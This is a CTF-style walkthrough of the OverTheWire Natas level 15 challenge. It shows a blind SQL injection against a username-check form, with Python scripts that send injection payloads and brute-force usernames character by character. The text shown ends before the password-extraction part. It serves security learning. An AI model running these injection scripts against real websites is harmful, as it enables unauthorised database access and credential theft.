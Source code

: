 # Natas 15 walkthrough
As always, we first introduce our credentials, and the first thing we see is this:
![alt text](media/front-end.png)

We see a form, that ask us to introduce an username, and then when we click the check existence button to send the post request. Lets try to introduce a random name, like "username".

![alt text](media/image1.png)

We get redirected to the following page 

![alt text](media/image2.png)

An as a result, the we see the text "This user doesn't exist.", this will be useful later in the script. 
So from what we have gathered by now, we can guess that if we put an username that exists, maybe the text that appears will be different.

Still we don't have much information, so we will see the source code.

![alt text](media/source_code.png) 

And looking at it, we see two important things, someone left the schema of the database in a comment, and we see that they are using a query. And another thing that is useful that we have a debug variable that we can add in the request, so we can see the query generated. 

To solve this problem, we can divide it the following parts: Code injection, finding the usernames, finding the password.

## Code Injection

For me at least, this was the part that took more time, because to create the query, I had to use my imagination and creativity. And also have to find a way to confirm that I can inject code.

### Confirming the code injection
To see if it's possible to inject code into this form, I created this function to help me (Before you look at it, you could try it for yourself!).
```python
#Function to see if we can inject code
def test_code_injection():
    payload = {'debug':'True','username': "\" OR \"1=1" }
    r= session.post(url,auth=(username, password),data=payload)
    print(f"this is the content {r.content}")
    if b"This user exist" in r.content:
        print(f"look we injected code!")
```
I set the debug variable to true, because it's helpful, and used an old friend (" OR "1=1) to verify if it's possible to inject code, and also left a print of the content, because when I was trying to write our old friend, I've made a lot of syntaxs errors, so it did not worked out at the first try hahaha. And it finally worked as you can see in this output.

![alt text](media/output.png)

### Creating the query

If we thing about the restrictions of the problem, we can see that we can not know the specifics values of the columns in the database, so the first question is, **how can we guess them?** And so while I was thinking on this, I did a little research on how to do queries, and found something very useful, and it is the LIKE keyword and using it with the % operator, we can do brute force to guess how does the values stored in the database are written. And also needed to use the JOIN keyword, so we can use the things mentioned before. And why we have to guess it? Because of the information that the page is giving us, we can only know when we are on the right track by seeing the content displayed in the page that says "This user exists."
So finally, the injected code will look like this:

<span style="color: #FF5F0F;">" UNION SELECT * from users WHERE username LIKE "<random_char>%</span>

I used the UNION keyword, because that's the way I found that I can be guessing the values stored in the database and felt more comfortable, maybe there is another way.

## Finding the usernames
We need to find first the usernames, because in this way, when we want to obtain the password of any username, we can shorten the guess for the password. So we are going to use injection created before in order to guess with which character does all the usernames start with, why? Because the brute force will be shorten, and we don't have to try all the possible combinations of characters. And also, after we find the firsts characters of every username, we have to know their full name.
```python
#This function find the first initial character of the usernames stored in the database
def get_start_char(characters):
    start_char = []
    for char in characters:
        print(f"trying with {char}")
        payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+char+"%" }
        r= session.post(url,auth=(username, password),data=payload)
        if b"This user exist" in r.content:
            print(f"we found the following character {char}")
            start_char.append(char)
    return start_char
              
#Function to obtain the usernames stored in the database
def obtain_usernames(username,password,session,url):
    characters = 'qwertyuiopñlkjhgfdsazxcvbnm1234567890QWERTYUIOPÑLKJHGFDSAZXCVBNM*?!#$&/()='
    contador = 0
    #['ñ','a', 'c', 'b', 'n', 'Ñ', 'A', 'C', 'B', 'N']
    start_users = get_start_char(characters)
    full_name = []
    for user_to_find in start_users:
        while True:
            if contador == len(characters)-1:
                full_name.append(user_to_find)
                contador=0
                break
            print(f"trying with {user_to_find}{characters[contador]}")
            test = user_to_find+ characters[contador]
            payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+test+"%" }
            r= session.post(url,auth=(username, password),data=payload)
            if b"This user exist" in r.content:
                print(f"We've got a match with {characters[contador]}")
                user_to_find +=characters[contador]
                contador=0
            contador+=1
    print(f"The users are \n: {full_name}")
    return full_name
```
![alt text](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExOWlmdGtpdjc2ZW5jcW15MzF0ODNvMmFtaW05MDJ5NG43dDgzYXh6ZCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/7mug9zTI8lR9OAWXUT/giphy.gif)


